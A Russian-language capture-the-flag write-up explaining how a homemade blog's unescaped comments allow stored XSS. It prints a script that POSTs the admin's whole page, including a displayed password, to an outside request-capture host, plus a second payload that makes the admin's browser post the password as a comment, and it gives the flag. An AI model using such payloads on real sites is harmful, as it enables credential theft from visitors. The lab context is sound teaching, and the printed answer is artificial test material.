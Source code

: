 # Старые добрые времена: Write-up

Есть блог. Самописный. У которого в комментариях работает форматирование. И еще кто-то умудрился добавить к нему фичу, о которой, судя по комментариям, не знал сам создатель сайта. Тут явно есть дыра.

Если открыть исходный код страницы, можно увидеть, что поддержку спойлеров добавил, действительно, автор комментария, потому что код его комментария выглядит так:

```html
<i>[#6] от <b>h4srr</b></i>:<br>
<blockquote>
	ну-ка, а так? <style>spoiler { color: grey; background-color: grey; } spoiler:hover { color: inherit; background-color: inherit; }</style> <spoiler>тест</spoiler>
</blockquote>
<hr>
```

То, что в комментарий получилось вставить тег `<style>`, намекает на то, что текст комментария вообще никак не экранируется, и в него можно вставить произвольный HTML. Например, если мы вставим в свой комментарий какой-нибудь скрипт, он исполнится у каждого, кто откроет сайт; будем надеяться, что админ свой блог посещает достаточно часто.

Что можно сделать в этом скрипте? Во-первых, хотелось бы определиться, что мы будем пытаться вытащить у админа. Можно попробовать вытащить куки, но есть зацепка получше: в самом верху страницы почему-то кроме логина пользователя пишется еще и его пароль (мда...). Так что будем вытаскивать весь код страницы, который из JavaScript можно получить как `document.documentElement.outerHTML` (или `new XMLSerializer().serializeToString(document)`, если вам так больше нравится).

Этот код страницы мы хотим отправить себе. Отправлять напрямую сообщения в Telegram из скрипта в браузере, как ни прискорбно, нельзя, поэтому придется посылать HTTP-запрос на какой-нибудь сервер, к которому мы имеем доступ. Можно обойтись без собственного сервера: например, [requestbin.com](https://requestbin.com) позволяет создать уникальный для вас хост, все обращения к которому по HTTP вам видны. Например, моя ссылка выглядит так: https://eo3pp6sxq232cm.m.pipedream.net.

Напишем скрипт для отправки POST-запроса на этот сайт, используя в качестве содержимого код страницы:

```html
<script>
fetch("https://eo3pp6sxq232cm.m.pipedream.net", {
	method: "POST",
	body: document.documentElement.outerHTML
});
</script>
```

Отправляем комментарий с таким кодом, ждем некоторое время, пока его прочитает админ, и видим, как приходит запрос со следующим содержимым:

```html
<html><head>
		<meta charset="utf-8">
		<title>Старые добрые деньки</title>
	</head>
	<body>
		Ваш логин: admin<br>
		Ваш пароль: ugra_stop_reinventing_the_wheel_cwyy7x00l5ca<br>

		<h1>Всем привет!</h1>
		<i>опубликовано 18 декабря 2022 г.</i><br>
...
```

Можно было пойти альтернативным путем и использовать вместо внешнего сервиса для передачи информации сам блог, отправляя от имени администратора комментарий с секретными данными:

```html
<script>
window.onload = () => {
	var user = document.body.textContent.match(/Ваш логин: ([^\n]*)/)[1];
	var password = document.body.textContent.match(/Ваш пароль: ([^\n]*)/)[1];
	if (user !== "anonymous") {
		var form = document.getElementsByTagName("form")[0];
		form.querySelector("[name=author]").value = user || "unknown";
		form.querySelector("[name=content]").value = "Password: " + password;
		form.submit();
	}
};
</script>
```

Напоследок отметим проблему, с которой столкнулись некоторые участники. По-видимому, многие пытались использовать в комментариях код вида `<img src=x onerror="...">`. По той или иной причине у админа оказались выключены картинки (видимо, он учился по старому самоучителю, где было написано, что так можно сэкономить трафик), поэтому такой эксплоит не работал.

Флаг: **ugra_stop_reinventing_the_wheel_cwyy7x00l5ca**
